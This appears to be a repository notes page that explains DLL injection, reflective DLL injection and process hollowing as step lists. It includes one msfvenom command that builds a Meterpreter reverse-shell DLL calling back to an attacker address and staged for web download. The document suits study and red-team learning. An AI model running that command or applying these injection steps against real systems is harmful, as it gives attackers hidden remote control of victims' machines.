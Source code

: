 # Theory / Notes

## DLL Injection 
1. Selecting the Target Process: Choose the process into which you want to inject the DLL. This process is identified by its Process ID (PID).
2. Opening the Target Process: Open the selected process, granting access rights to manipulate its memory and threads.
3. Allocating Memory in the Target Process: Allocate memory within the target process to store the path of the DLL being injected and other necessary data structures.
4. Writing DLL Path to Memory: Write the path of the DLL to be injected into the allocated memory space of the target process.
5. Loading DLL into Target Process: Use the LoadLibrary function to load the DLL into the address space of the target process.
6. Executing DLL Code: The injected DLL code is executed within the context of the target process, performing its intended functionality.
7. Cleaning Up Resources: Release allocated memory and close handles to clean up resources after DLL injection is completed.
<br>
Note: Generated DLLs with msfvenom -p windows/x64/meterpreter/reverse_https LHOHOST=192.168.162.140 LPORT=443 -f dll -o /var/www/html/evil.dll

## Reflective DLL Injection 
1. Downloading the Reflective DLL: Download a reflective DLL from a specified URL or location.
2. Opening the Target Process: Open the target process into which you want to inject the reflective DLL. This process is identified by its Process ID (PID).
3. Allocating Memory in the Target Process: Allocate memory within the target process to store the reflective DLL's code and other necessary data structures.
4. Writing Reflective DLL Code to Memory: Write the reflective DLL's code into the allocated memory space of the target process.
5. Executing Reflective DLL Code: Unlike traditional DLL injection, in reflective DLL injection, the reflective DLL's code is designed to execute itself from memory without relying on the LoadLibrary function. This self-execution is typically achieved by the reflective DLL's ability to parse its own PE header and perform necessary relocations and imports.
6. Executing Reflective Loader: Optionally, a reflective loader may be used to simplify the reflective DLL injection process. The reflective loader is responsible for loading the reflective DLL into memory and executing it, making the injection process more streamlined.
7. Cleaning Up Resources: As with traditional DLL injection, release allocated memory and close handles to clean up resources after reflective DLL injection is completed.

## Process Hollowing
1. Downloading the Legitimate Executable: You download an executable file from a specified URL.
2. Opening the Target Process: You open the process into which you want to inject the executable. This process is identified by its Process ID (PID).
3. Allocating Memory in the Target Process: You allocate memory within the target process to store the executable's code.
4. Writing Executable Content to Memory: You read the contents of the downloaded executable file and write them into the allocated memory space of the target process.
5. Setting Entry Point: You set the entry point of the target process to the starting address of the injected code.
6. Suspending Threads: You suspend all threads within the target process to prevent them from executing.
7. Updating Thread Context: You update the context of the main thread in the target process to set its instruction pointer (EIP) to the entry point of the injected code.
8. Resuming Threads: After updating the thread context, you resume the main thread of the target process, which starts executing the injected code.
9. Cleaning Up Resources: Finally, you release allocated memory and close handles to clean up resources.
